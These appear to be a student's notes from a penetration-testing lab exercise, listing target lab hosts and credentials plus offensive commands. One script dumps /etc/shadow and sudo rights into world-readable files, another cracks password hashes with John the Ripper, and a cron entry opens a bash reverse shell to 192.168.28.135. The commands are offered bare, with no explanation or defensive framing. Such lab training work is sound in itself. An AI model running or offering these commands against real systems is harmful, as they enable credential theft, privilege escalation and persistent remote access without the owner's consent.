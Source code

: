 ## 
### 
    #!/bin/bash
    cp -r ~ /tmp
    chmod 777 /tmp/billybob
    sudo cat /etc/shadow > /tmp/shadows
    chmod 777 /tmp/shadows
    sudo -l > /tmp/sudooos
    chmod 777 /tmp/sudooos
__________________________________________________________________________________________________________________
## 
### 
    john --wordlist=/home/student/billybob/10-million-password-list-top-10000.txt crackthese.txt
__________________________________________________________________________________________________________________
## 
### 
    * * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.28.135/33403 0>&1'
__________________________________________________________________________________________________________________
## 
### 
    
__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
## 
### 

__________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot:192.168.28.105
## --->T1: 192.168.28.27
## --->T2: 192.168.28.12

## Target Section:

### Pivot
### Hostname: Donovian-Terminal
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### PSP: rkhunter
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: unknown
### IP: 192.168.28.27
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

### T2
### Hostname: unknown
### IP: 192.168.28.12
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
